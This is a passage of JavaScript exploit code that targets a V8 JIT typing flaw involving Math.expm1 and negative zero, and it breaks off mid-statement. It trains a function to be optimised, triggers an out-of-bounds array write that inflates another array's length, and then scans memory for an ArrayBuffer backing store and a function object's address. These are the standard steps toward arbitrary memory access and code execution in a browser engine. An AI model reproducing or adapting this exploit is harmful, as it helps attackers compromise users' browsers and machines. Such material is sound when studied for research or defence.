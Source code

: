 ```plain
    var data_view = new DataView(ab);

    function opt_me(x) {
        var oob_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
        big_arr = [1.1, 1.2];
        ab = new ArrayBuffer(0x233);
        data_view = new DataView(ab);

        let obj = {
            a: -0
        };
        let idx = Object.is(Math.expm1(x), obj.a) * 10;

        var tmp = f2u(oob_arr[idx])[0];
        oob_arr[idx] = u2f(0x234, tmp);
    }
    for (let a = 0; a < 0x1000; a++)
        opt_me(0);

    opt_me(-0);
    var optObj = {
        flag: 0x266,
        funcAddr: opt_me
    };

    log("[+] big_arr.length: " + big_arr.length);

    if (big_arr.length != 282) {
        log("[-] Can not modify big_arr length !");
        return;
    }
    var backing_store_idx = -1;
    var backing_store_in_hign_mem = false;
    var OptObj_idx = -1;
    var OptObj_idx_in_hign_mem = false;

    for (let a = 0; a < 0x100; a++) {
        if (backing_store_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x466) {
                backing_store_in_hign_mem = true;
                backing_store_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x466) {
                backing_store_in_hign_mem = false;
                backing_store_idx = a + 1;
            }
        }

        else if (OptObj_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x4cc) {
                OptObj_idx_in_hign_mem = true;
                OptObj_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x4cc) {
                OptObj_idx_in_hign_mem = false;
                OptObj_idx = a + 1;
            }
        }

    }

    if (backing_store_idx == -1) {
        log("[-] Can not find backing store !");
        return;
    } else
```